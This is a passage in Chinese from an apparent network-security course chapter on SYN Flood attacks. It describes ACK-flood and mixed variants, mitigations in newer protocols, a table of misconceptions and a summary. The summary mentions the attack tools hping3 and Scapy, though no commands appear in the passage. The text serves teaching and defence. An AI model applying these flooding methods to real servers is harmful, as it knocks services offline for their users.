- **ACK洪水**：直接发送大量伪造ACK包，绕过SYN握手阶段，消耗Accept Queue
- **混合攻击**：同时使用SYN Flood、ACK Flood、UDP Flood等多种向量

#### 5.7.3 新型协议层面的缓解

**TCP Fast Open（TFO）**：RFC 7413定义的扩展允许在SYN包中携带数据，减少一次RTT延迟。但TFO也引入了新的安全考量——攻击者可以在SYN包中注入数据。

**Multipath TCP（MPTCP）**：允许多条子流同时传输，增加了连接管理的复杂性，也为攻击面增加了新的维度。

**QUIC协议**：基于UDP的传输协议，从根本上绕过了TCP的SYN Flood问题，但引入了新的UDP放大攻击和连接迁移相关的安全考量。

---

### 5.8 常见误区与注意事项

| 误区 | 纠正 |
|------|------|
| "SYN Flood只能用hping3发起" | Scapy、C语言raw socket、甚至Python socket模块都可以构造SYN包 |
| "开启SYN Cookie就安全了" | SYN Cookie只是缓解措施之一，无法防御所有变体，且会损失部分TCP选项 |
| "增大backlog就能防住" | 队列再大也有上限，攻击流量足够大时仍会耗尽，且更大的队列消耗更多内存 |
| "SYN Flood已经过时了" | 2024-2025年DDoS报告中SYN Flood仍占传输层攻击的40%以上 |
| "只关注入站流量" | 服务器的SYN+ACK回复和重传也会消耗出站带宽，出站流量同样需要监控 |
| "防火墙规则太复杂没必要" | 简单的限速规则就能大幅降低攻击影响，投入产出比极高 |
| "云服务器不需要自己防护" | 云厂商的基础防护通常有阈值上限，超出部分仍需自费购买高防服务 |

---

### 5.9 本案例小结

SYN Flood攻击演示案例覆盖了以下关键知识点：

1. **原理层面**：深入理解TCP三次握手、半连接队列（SYN Queue）、全连接队列（Accept Queue）的工作机制，以及SYN Flood如何通过消耗半连接资源实现拒绝服务
2. **攻击工具**：掌握hping3、Scapy、nmap三种工具的使用方法，了解各自的特点和适用场景
3. **流量分析**：能够通过tcpdump、Wireshark识别SYN Flood的流量特征，区分正常连接和攻击流量
4. **检测方法**：利用`ss`、`netstat`、`conntrack`等工具实时监控系统状态，建立告警机制
5. **防御体系**：从内核参数、防火墙规则、应用层配置到网络架构四个层次构建纵深防御
6. **进阶理解**：了解SYN Cookie机制的细节、攻击变体和绕过方法，以及新型协议的影响

SYN Flood作为最基础也最经典的DDoS攻击向量，是每位网络安全从业者的必修课。掌握它的攻防原理，不仅能直接应用于实战，更能帮助理解更复杂的DDoS攻击变体和防御策略。
